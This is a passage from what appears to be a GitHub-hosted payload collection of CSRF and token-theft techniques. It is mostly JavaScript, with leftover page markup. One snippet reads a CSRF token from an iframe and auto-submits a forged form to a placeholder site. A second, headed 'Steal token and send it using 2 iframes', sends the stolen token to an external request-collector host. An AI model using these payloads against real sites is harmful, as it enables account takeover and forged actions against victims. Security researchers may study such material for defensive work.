 <script> 
function read()
{
    var name = 'admin2';
    var token = document.getElementById(&quot;iframe&quot;).contentDocument.forms[0].token.value;
    document.writeln('<form width=&quot;0&quot; height=&quot;0&quot; method=&quot;post&quot; action=&quot;http://www.yoursebsite.com/check.php&quot;  enctype=&quot;multipart/form-data&quot;>');
    document.writeln('<input id=&quot;username&quot; type=&quot;text&quot; name=&quot;username&quot; value=&quot;' + name + '&quot; /><br />');
    document.writeln('<input id=&quot;token&quot; type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;' + token + '&quot; />');
    document.writeln('<input type=&quot;submit&quot; name=&quot;submit&quot; value=&quot;Submit&quot; /><br/>');
    document.writeln('</form>');
    document.forms[0].submit.click();
}
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-token-and-send-it-using-2-iframes" class="anchor" aria-hidden="true" href="#steal-token-and-send-it-using-2-iframes"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal token and send it using 2 iframes</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;script&gt;
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
&lt;/script&gt;
